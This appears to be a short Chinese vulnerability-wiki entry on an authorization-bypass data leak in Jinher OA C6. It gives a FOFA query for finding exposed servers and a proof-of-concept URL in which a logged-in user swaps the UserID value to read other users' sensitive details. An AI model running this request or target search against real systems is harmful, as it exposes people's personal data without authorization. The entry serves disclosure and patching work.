 # 金和OA C6 越权信息泄露漏洞

## 漏洞描述

金和OA C6 存在越权信息泄露漏洞，普通用户登录后可以通过遍历ID编号获取管理员及其他用户的敏感信息

## 漏洞影响

> [!NOTE]
>
> 金和OA C6

## FOFA

> [!NOTE]
>
> app="Jinher-OA"

## 漏洞复现

使用普通用户登录 OA应用后台

访问的POC为

```
http://xxx.xxx.xxx.xxx/C6/JHSoft.Web.Dossier/DossierBaseInfoView.aspx?CollID=1&UserID=RY120330
```

> [!NOTE]
>
> 注意 RY120330 需要为确定的其他的用户编号

![](http://wikioss.peiqi.tech/vuln/jh-4.png)

泄露了部分的敏感信息

## 参考文章

https://mp.weixin.qq.com/s/gwHQVIZeMWfT8a5lBX_4WA